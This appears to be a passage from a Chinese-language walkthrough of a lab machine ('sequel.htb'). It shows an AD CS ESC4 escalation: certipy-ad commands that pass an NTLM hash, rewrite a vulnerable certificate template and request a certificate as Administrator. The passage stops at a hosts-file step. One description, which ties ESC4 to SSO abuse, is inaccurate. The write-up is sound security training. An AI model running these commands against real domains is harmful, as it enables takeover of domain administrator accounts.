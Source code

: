 关注一下证书的Permissions字段

>**Object Control Permissions** 是控制谁可以修改、删除或管理证书模板和对象配置的权限。
>
>**Enrollment Permissions** 是控制谁可以请求和注册证书的权限，决定哪些用户可以申请证书或使用证书模板。

其中模板名叫DunderMifflinAuthentication的模板中，

1. **Domain Admins** 组具有 **Enroll Rights**（注册权限），意味着 **Domain Admins** 组的成员可以使用该模板来申请证书。用该证书能注册一个Domain Admins成员
2. **Object Control Permissions** 部分显示了 **Cert Publishers** 组拥有该证书模板的 **Full Control** 权限，意味着 **Cert Publishers** 组的成员可以修改、删除、配置该模板的权限设置、修改证书模板的配置等操作。

该模板对**Domain Admins**具有注册权利，而且**Cert Publishers**对该模板具有完全控制权限，因此恶意利用该模板即可获取管理员密码哈希

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320065152471.png)

通过上面创建影子账户获取TGT的哈希枚举靶机ADCS检测漏洞

```bash
certipy-ad find -u ca_svc@10.10.11.51 -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -vulnerable -stdout
```

可以看到报Vulnrabilities ESC4

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320083507748.png)

ESC4 漏洞允许攻击者通过对特定 **SSO（Single Sign-On）** 配置的滥用，窃取 **Windows** 身份验证信息。

伪造模板证书：

```bash
ntpdate 10.10.11.51
certipy-ad template -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -k -template 'DunderMifflinAuthentication' -target DC01.sequel.htb -ns 10.10.11.51 -debug
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320082143947.png)

请求Administrator@sequel.htb

```bash
ntpdate 10.10.11.51

certipy-ad template -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -k -template 'DunderMifflinAuthentication' -target DC01.sequel.htb -ns 10.10.11.51 -debug

echo y | certipy-ad req -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -template 'DunderMifflinAuthentication' -upn Administrator@sequel.htb -target DC01.sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -dc-ip 10.10.11.51
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320084456640.png)

借助上一步请求得到的pfx证书通过身份认证，因为请求伪造时间原因，需要在请求后立即登录

而且由于是本地直接登录，需要解析sequel.htb，而生成证书又必须使用sequel.htb而不能用ip，所以配下host

